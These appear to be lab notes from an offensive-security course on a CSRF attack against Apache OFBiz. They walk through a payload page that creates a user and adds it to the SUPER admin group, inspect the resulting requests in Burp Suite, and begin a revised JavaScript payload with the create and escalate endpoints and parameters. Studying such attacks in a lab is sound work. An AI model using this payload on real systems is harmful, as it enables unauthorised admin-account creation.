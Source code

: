 We'll click on the portrait in the upper right hand corner and then click _Logout_. On the resulting page, we'll click _Login_ to return to the login page and submit the credentials for the account we created with the CSRF attack.

Was able to login with the newly added credentials `csrftest:password` to prove that it worked
![[Pasted image 20240813155920.png]]

Analyzing the `Burpsuite` packet requests:

Upon hitting enter in the web page tab to start the exploit with `http://192.168.45.175/ofbiz1.html` we can see the initial `GET` request as well as the `ofbiz1.html` script that we are utilizing to create the `csrf` user and add that user to the `super user` group with `form1` and `form2` 
![[Pasted image 20240813160323.png]]
this leads to the first `POST` request following the `GET` request which is applying the `csrftest` user creation as well as assigning the `SESSION COOKIE`
![[Pasted image 20240813160912.png]]
The following `POST` request shows that the `csrftest` user is being added to the `SUPER` group with the same `SESSION COOKIE` as the one from the last request
![[Pasted image 20240813161343.png]]
Excellent. Our attack worked, but our payload is a little noisy as it opened multiple pages. We may have been lucky on timing of the requests, so we will revise our attack to be more reliable in the next section.

Before continuing to the next section, make sure to follow the steps above and exploit the CSRF vulnerability to create a new user and add that user to the SUPER group.


-----------------------
#### 6.4.4 Revising the CSRF Payload

Rather than use two forms, let's use JavaScript to make the requests directly without navigating the browser away from our payload page. We'll create a new HTML page named `ofbiz2.html` in /var/www/html.

We'll start with the basic structure and some common variables.

*Basic HTML and JavaScript structure for ofbiz2.html*
```js
<html>
<head>
<script>
  var username = "csrftest2";
  var password = "password";
  var host = "https://ofbiz:8443";
  var create_url = "/webtools/control/createUserLogin";
  var admin_url = "/webtools/control/userLogin_addUserLoginToSecurityGroup";
  var create_params = "enabled=&partyId=&userLoginId=" + username + "&currentPassword=" + password + "&currentPasswordVerify=" + password + "&passwordHint=hint&requirePasswordChange=N&externalAuthId=&securityQuestion=&securityAnswer=";
  var admin_params = "userLoginId=" +username + "&partyId=&groupId=SUPER&fromDate_i18n=&fromDate=&thruDate_i18n=&thruDate=";
</script>
</head>
<body></body>
</html>
```
